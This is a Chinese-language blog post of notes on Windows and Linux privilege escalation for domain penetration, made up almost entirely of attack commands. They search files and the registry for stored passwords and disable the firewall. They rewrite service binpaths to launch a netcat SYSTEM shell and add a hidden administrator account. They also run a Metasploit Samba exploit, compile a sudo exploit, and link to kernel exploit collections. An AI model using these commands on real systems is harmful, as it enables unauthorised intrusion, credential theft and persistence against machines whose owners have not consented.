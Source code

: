 ```yaml
---
title: 域渗透(提权篇)
date: 2018-01-09 15:20:00
categories:
   - 技术相关
tags:
   - 域渗透
   - 笔记
#summary_img: /images/material-17.png
---
```

.....
<!-- more -->
## 常见信息收集

    dir /a-r-d /s /b                                 检查文件夹可写状态
    dir /b/s password.txt                            查找密码文件或其它敏感文件
    dir /b/s config.*
    findstr /si password *.xml *.ini *.txt 
    findstr /si login *.xml *.ini *.txt 
    C:\sysprep.inf
    C:\sysprep\sysprep.xml
    C:\Windows\Panther\Unattend\Unattended.xml
    C:\Windows\Panther\Unattended.xml
    dir /s *pass* == *cred* == *vnc* == *.config*    搜索system32关键字的文件
    findstr /si password *.xml *.ini *.txt           搜索某些特定的文件类型
    reg query HKLM /f password /t REG_SZ /s          搜索注册表中包含password
    reg query HKCU /f password /t REG_SZ /s
    netsh firewall show config                       显示 Windows 防火墙配置
    netsh firewall show state                        显示 Windows 防火墙的当前状态 
    netsh firewall set opmode disable                关闭防火墙
    netsh advfilewall set publicprofile state off
    systeminfo | findstr /B /C:"OS Name" /C:"OS Version"    获取操作系统信息
    systeminfo | findstr /B /C:"OS 名称" /C:"OS 版本"         
    schtasks /query /fo LIST /v                      计划任务 [国外调整 chcp 437]
    route print                                      查看路由表
    arp -A                                           查看ARP缓存

## upnphost提权

    sc qc Spooler                 查询，配置，和管理Windows服务
    accesschk.exe -ucqv Spooler   检查每个服务需要的权限   XP_SP2被修复
    攻击手法：
        sc qc upnphost
        sc config upnphost binpath= "C:\nc.exe -nv 127.0.0.1 9988 -e    C:\WINDOWS\System32\cmd.exe"
        sc config upnphost obj= ".\LocalSystem" password= ""
        sc qc upnphost
        net start upnphost
        执行netcat并且使用SYSTEM权限反弹一个shell
        sc config PFNET binpath= "net user admin P@ssword123! /add"
        sc stop PFNET
        sc start PFNET
        sc config PFNET binpath= "net localgroup Administrators admin /add"
        sc stop PFNET
        sc start PFNET

## 服务与权限

    DRIVERQUERY                 安装驱动
    wmic product list brief     查看安装程序和版本信息. [可能存在漏洞]
    wmic service list brief     查看服务、进程和启动程序信息
    wmic process list brief
    wmic startup list brief
    wmic qfe get Caption,Description,HotFixID,InstalledOn   查看安装补丁和时间信息
    wmic qfe get Caption,Description,HotFixID,InstalledOn | findstr /C:"KBxxxxxxx"
    wimc process where(description="进程名")       结合tasklist /svc 
    wmic service get name,displayname,pathname,startmode |findstr /i "Auto" |findstr /i /v "C:\Windows\\" |findstr /i /v """    列出目标机器上所有没有用引号包含的服务路径
    tasklist /v /fo list /fi "USERNAME eq NT AUTHORITY\SYSTEM"  筛选NT AUTHORITY\SYSTEM权限进程
    icacls "C:\Program Files (x86)\360"     查看路径中受影响文件夹的权限



## 补丁对应Exp
补丁对比 https://github.com/GDSSecurity/Windows-Exploit-Suggester

    pip install xlrd --upgrade
    ./windows-exploit-suggester.py --update
    [+] writing to file 2014-06-06-mssb.xlsx 
    输入“systeminfo”输入，并将其指向微软数据库
    ./windows-exploit-suggester.py --database 2014-06-06-mssb.xlsx --systeminfo     win7sp1-systeminfo.txt 
    未修补漏洞存在的exp
    ./windows-exploit-suggester.py --database 2014-06-06-mssb.xlsx --ostext     'windows server 2008 r2'


## AlwaysInstallElevated提权

    http://www.greyhathacker.net/?p=185
    如果这个设置被启用，它允许任何权限的用户暂时使用NT AUTHORITY\SYSTEM权限来安装*.msi文件。
    AlwaysInstallElevated且它的DWORD值是1才有效。
    https://github.com/SecWiki/windows-kernel-exploits
    https://github.com/SecWiki/linux-kernel-exploits
    可以利用Advanced Installer(http://www.advancedinstaller.com/)生成msi安装包

## 查看.msi程序的执行权限

    reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
    reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

## 查看是否设置有setuid和setgid

    reg query HKEY_Local_Machine\System\CurrentControlSet\Services\NfsSvr\Parameters\SafeSetUidGidBits

    CVE-2017-1000367
        系统必须启用selinux
        sudo需要用selinux支持（sudo -r）
        用户需要具有sudo权限
    gcc -o sudopwn sudopwn.c -lutil
    ./sudopwn

枚举系统设置和权限的检查
http://www.securitysift.com/download/linuxprivchecker.py

## 基于操作系统的内核版本号

    https://github.com/PenturaLabs/Linux_Exploit_Suggester
    ./Linux_Exploit_Suggester.pl -k 内核版本号[例如3.10,结合uname -a]

## 检测权限提升向量的shell脚本

    https://github.com/pentestmonkey/unix-privesc-check
    unix-privesc-check standard
    unix-privesc-check detailed

下载和解压缩脚本RootHelper
https://github.com/NullArray/RootHelper

## CVE-2017-7494[Samba]

    http://fuping.site/2017/05/25/Samba-Remote-Code-Execution-Vulnerability-Replication/
    use exploit/linux/samba/is_known_pipename
    set RHOST 192.168.232.137
    set target 3
    exploit

## 内核提权

    lsb_release -a
    uname -a
    python -c 'import pty; pty.spawn("/bin/bash")'
    suid 提权 [有限制]
    find / -perm -u=s -type f 2>/dev/null

from:
https://04z.net/2017/07/10/AD-Attacks-go/
